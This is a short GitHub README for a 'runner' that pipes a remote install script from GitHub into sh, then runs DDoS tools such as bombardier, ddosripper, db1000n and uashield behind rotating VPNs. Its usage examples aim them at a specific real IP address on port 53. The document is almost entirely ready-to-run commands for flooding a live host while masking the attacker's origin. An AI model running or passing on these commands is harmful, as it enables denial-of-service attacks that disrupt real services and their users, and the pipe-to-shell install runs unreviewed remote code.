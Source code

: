 # Ubuntu runner
Script runs load under vpn and refreshes vpn every N seconds

Supports many VPN providers via https://github.com/qdm12/gluetun/wiki

# Install
```
curl https://raw.githubusercontent.com/ctukraine22/runner/master/install.sh | sh
```

# Init
```
/runner/init.sh user1 code1 expressvpn Country
/runner/init.sh %vpn-user% %vpn-pass% %vpn-type% "vpn-counties" %vpn-servers% %vpn-transport% %vpn-cret-repo%
```

# Run

```
/runner/run.sh bombardier 194.58.196.62 53 
/runner/run.sh ddosripper 194.58.196.62 53 
/runner/run.sh db1000n
/runner/run.sh uashield

```
- %vpn-type% here https://github.com/qdm12/gluetun/wiki
- %vpn-transport%: tcp/udp
- "vpn-counties" %vpn-servers%: different fore each vpn provider, see wiki
- %vpn-cret-repo%: git repository which contains cert files in folder named same as %vpn-type%

To use cyberhost you need fork this repo and replace key and crt: https://github.com/qdm12/gluetun/wiki/Cyberghost

# Supported tools
- db1000n
- checksites
- ddosripper
- uashield
- bombardier
- kali